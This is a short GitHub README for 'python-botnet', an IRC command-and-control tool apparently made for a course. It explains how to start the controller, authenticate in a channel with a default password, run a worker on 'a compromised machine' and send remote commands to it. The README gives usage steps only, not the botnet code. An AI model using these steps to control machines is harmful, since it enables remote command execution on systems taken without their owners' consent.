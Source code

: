 # python-botnet
An IRC command & control botnet. Use this to communicate with machines that you have compromised and gained access to.

## How to use
Inside the directory run the command
```
python boss.py
```
Now open your favorite IRC chat client and connect to the IRC server (default is i'rc.freenode.net'), join the channel #cs460botnet-jlchao2.

In the chat box type:
```
!auth password
```
with whatever password you started boss.py with (default is 'password').

On a compromised machine, run:
```
python worker.py -n *name*
```
with some *name* for the worker.

Now in the IRC client, you can type:
```
!status
```
and see that there is one worker available.

You can send commands for the worker(s) to run:
```
!execute [num-workers] *command*
```
for example
```
!execute run vmstat
```
and view the output with:
```
!print
```
